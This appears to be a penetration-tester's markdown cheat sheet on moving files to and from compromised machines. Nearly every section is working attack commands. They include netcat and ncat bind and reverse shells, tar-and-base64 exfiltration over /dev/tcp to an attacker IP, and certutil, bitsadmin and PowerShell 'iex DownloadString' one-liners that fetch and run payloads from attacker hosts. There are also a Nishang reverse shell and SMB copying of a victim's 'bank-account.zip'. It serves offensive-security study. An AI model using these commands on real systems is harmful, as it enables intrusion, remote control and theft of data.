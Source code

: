 # File transfer
**Netcat [nc]**

`nc -w 3 <target_ip> 1234 < LinEnum.sh` on target machine: `nc -l -p 1234 > LinEnum.sh`

`nc IP_ADDR PORT > OUTFILE` (run `nc -lvp PORT < infile` on attacking machine)



**Bob sets listener with shell:** 

`nc -lnvp 4444 -e cmd.exe` -> Alice connects: `nc -nv 10.0.0.22 4444`

**or Bob listens:**

`nc -nlvp 4444`  -> Alice sends her shell to Bob's listener: `nc -nv 10.0.0.22 4444 -e /bin/bash`



**Ncat - Bind shell [listener shares shell]**
`ncat --exec cmd.exe --allow 10.0.0.4 -vnl 4444 --ssl`
`ncat -v 10.0.0.22 4444 --ssl`

**Ncat - Reverse shell [connector shares shell]**
`ncat --exec cmd.exe -vn 192.168.100.145 4444 --ssl`
`ncat -vnl 4444 --ssl --allow 192.168.100.146`



## Unix Transfer Methods

[https://unix.stackexchange.com/questions/47434/what-is-the-difference-between-curl-and-wget](https://unix.stackexchange.com/questions/47434/what-is-the-difference-between-curl-and-wget)

`wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh`
`wget http://IP_ADDR/file -O /path/to/where/you/want/file/to/go`
`curl http://attackerip/file > file`
`fetch http://IP_ADDR/file`
`ftp -s:input.txt`
`tftp -i get file /path/on/victim`



**Upload a file**
`curl --upload-file [-T] ./tecmint.txt https://transfer.sh/tecmint.txt`
And rename it to an executable file using the MOVE method with the curl command:
`curl -X MOVE --header Destination:http://$ip/leetshellz.php  http://$ip/leetshellz.txt`

**Nc**

`nc -vl 44444 > pick_desired_name_for_received_file`
`nc -N 10.11.12.10 44444 < /path/to/file/you/want/to/send`



### Exfil over TCP Socket with EBDIC and Base64

**On own attacker machine**
`nc -nlvp 80 > datafolder.tmp`

**On target machine**
`tar zcf - /tmp/datafolder | base64 | dd conv=ebcdic > /dev/tcp/<attacker_IP>/80`

**On own machine**
`dd conv=ascii if=datafolder.tmp |base64 -d > datafolder.tar`
`tar xf datafolder.tar`

**SSH to own machine**
`tar zcf - /tmp/datafolder | ssh root@<attacker_IP > "cd /tmp; tar zxpf -"`
tar the contents of our /tmp/datafolder while sending the output to (-) and then SSH it over to our attacker system



## Windows Transfer Methods

- https://sushant747.gitbooks.io/total-oscp-guide/transfering_files_to_windows.html
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Download%20and%20Execute.md



### Certutil

There are many ways to copy over files. I found **certutil.exe** to be the most reliable across Windows editions. For example;
https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/certutil
`cmd.exe /c "certutil[.exe] -urlcache -split -f http://$IP/Powerless.bat [Powerless.bat]"`
`certutil.exe -urlcache -split -f "http://10.11.0.126/win32revtcp.exe" [shell.exe]`

### Bitsadmin

`bitsadmin /transfer download /priority normal http://IP_ADDR/file C:\output\path` (Works on Windows 7/Windows Server 2000+)
`bitsadmin /transfer download /download /priority normal http://<attackerIP>/xyz.exe C:\\Users\\%USERNAME%\\AppData\\local\\temp\\xyz.exe`



### Python

``` python 
C:\Python2.7\python.exe -c "import urllib; f = urllib.URLopener();
f.retrieve('http://<attacker ip>/rs_powershell.exe', '/temp/rs_powershell.exe');" 
```



### FTP

`Python ftp\ - python -m pyftpdlib -w -p 21`

The best way i've found for file transfer on MOST machines is to just use plain old ftp. just about every 
windows machine has it installed by default, and you can get a really good quick and easy python script.

 "`pip install pyftpdlib` or `pip3 install pyftpdlib`" once pyftpdlib is installed, just run it in the directory you want to download files to with "`python -m pyftpdlib -w -p 21`" then on your client machine type ftp -A your.ip.add.ress (the -A is for Anonymous, these shells will hang on user/password entry sometimes, don't use this option with linux machines though) and you're ready to transfer files!

`python -m pyftpdlib -w -p 21` or `python3 -m pyftpdlib -w`

`ftp -s:input.txt`

`tftp -i 10.11.0.126 get nc.exe`



### HTTP Server

`python3 -m http.server`

`python -m SimpleHTTPServer`



## Powershell - [download is in-memory]

- `C:\> powershell.exe -exec bypass -Command “& {iex((New-Object System.Net.WebClient).DownloadFile(‘http://IP_ADDR:PORT/FILE','C:\Users\user\AppData\Local\ack.exe'));}”`
- `PS C:\> iex (New-Object Net.Webclient).DownloadString(“http://attacker_url/script.ps1")`
- `C:\> powershell iex (New-Object Net.Webclient).DownloadString(‘http://attacker_url/script.ps1’)`
- `powershell -exec bypass -c (New-Object Net.WebClient).DownloadString(\"http://10.11.0.84/rev.ps1\") | IEX; Invoke-Powershell`



#### DownloadFile method

``` Powershell
PS C:\> $downloader = New-Object System.Net.WebClient
PS C:\> $payload = "http://attacker_URL/payload.exe"
PS C:\> $local_file = "C:\programdata\payload.exe"
PS C:\> $downloader.DownloadFile($payload,$local_file)
```



#### Offsec

```powershell
C:\Users\Offsec> echo $storageDir = $pwd > wget.ps1
C:\Users\Offsec> echo $webclient = New-Object System.Net.WebClient >>wget.ps1
C:\Users\Offsec> echo $url = "http://10.11.0.5/evil.exe" >>wget.ps1
C:\Users\Offsec> echo $file = "new-exploit.exe" >>wget.ps1
C:\Users\Offsec> echo $webclient.DownloadFile($url,$file) >>wget.ps1

C:\Users\Offsec> powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
```



#### Nishang

`iex (New-Object Net.Webclient).DownloadString("http://attacker_url/Invoke-PowerShellTcp.ps1"); Invoke-PowerShellTcp -Reverse -IPAdress <listener IP> -Port 4444`



#### Shares & Data Exfiltration

``` bash
net use \\<ip> /user:DOMAIN\username password
net view \\<ip>
dir /s \\<host>\SHARE - recursive search
dir /s /Q /O:-D /T:A \\<hostname>\SHARE - find files
xcopy /s /E \\<host>\SHARE\dir c:\blah - Xcopy recursively files &
```



**SMB Server**
`python /usr/share/doc/python-impacket/examples/smbserver.py files /root/Documents/oscp/files/windows-binaries`

**To put/get files:**

`copy \\10.11.0.126\files\nc.exe` 

`copy C:\bank-account.zip \\10.11.0.126\files\`

**Execute a file from SMB server**
`\\10.9.122.8\ROPNOP\met8888.exe`